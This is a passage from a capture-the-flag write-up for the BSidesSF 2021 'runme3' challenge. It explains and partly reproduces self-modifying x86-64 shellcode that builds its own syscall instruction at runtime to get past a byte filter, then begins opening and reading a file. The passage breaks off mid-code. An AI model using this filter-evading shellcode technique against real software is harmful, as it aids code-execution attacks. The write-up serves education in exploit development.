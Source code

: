 This is technically "self modifying code", or maybe even "polymorphic shellcode", to use a fancy name. But it's the simplest version of it I could think of.

Let's take a look at [the solution](https://github.com/BSidesSF/ctf-2021-release/tree/main/runme3/solution):

```
<pre id="vimCodeElement"><span class="Identifier">bits</span> <span class="Number">64</span>

<span class="Comment">; Jump down to the bottom, where we have the bytes for syscall (less 1) waiting</span>
<span class="Identifier">jmp</span> <span class="Identifier">short</span> <span class="Identifier">my_fake_syscall_bottom</span>
  <span class="Identifier">my_fake_syscall_top</span>:
  <span class="Identifier">pop</span> <span class="Identifier">rbx</span> <span class="Comment">; Pop the address of the syscall-minus-1 block into rbx</span>
  <span class="Identifier">add</span> <span class="Identifier">word</span> [<span class="Identifier">rbx</span>], <span class="Number">0x0101</span> <span class="Comment">; Increment the two bytes - 0x0e -> 0x0f and 0x04 -> 0x05</span>

  <span class="Comment">; Now rbx points to "syscall / ret", so we can just call that any time we</span>
  <span class="Comment">; need a syscall!</span>
  <span class="Comment">;</span>
  <span class="Comment">; Other than changing "syscall" to "call rbx", the rest is identical!</span>

<span class="Comment">;;; OPEN</span>

  <span class="Comment">; Syscall 2 = sys_open</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">mov</span> <span class="Identifier">al</span>, <span class="Number">2</span>

  <span class="Comment">; rdi = filename</span>
  <span class="Identifier">jmp</span> <span class="Identifier">short</span> <span class="Identifier">getfilename_bottom</span>
<span class="Identifier">getfilename_top</span>:
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span> <span class="Comment">; Pop the top of the stack (which is the filename) into rdi</span>

  <span class="Comment">; rsi = flags</span>
  <span class="Identifier">xor</span> <span class="Identifier">rsi</span>, <span class="Identifier">rsi</span>

  <span class="Comment">; rdx = mode</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdx</span>, <span class="Identifier">rdx</span>

  <span class="Comment">; Perform sys_open() syscall, the file handle is returned in rax</span>
  <span class="Identifier">call</span> <span class="Identifier">rbx</span>

<span class="Comment">;;; READ</span>

  <span class="Identifier">push</span> <span class="Identifier">rdi</span> <span class="Comment">; Temporarly store the filename pointer</span>
  <span class="Identifier">push</span> <span class="Identifier">rax</span> <span class="Comment">; Temporarily store the handle</span>

  <span class="Comment">; Syscall 0 = sys_read</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>

  <span class="Comment">; rdi = file handle</span>
```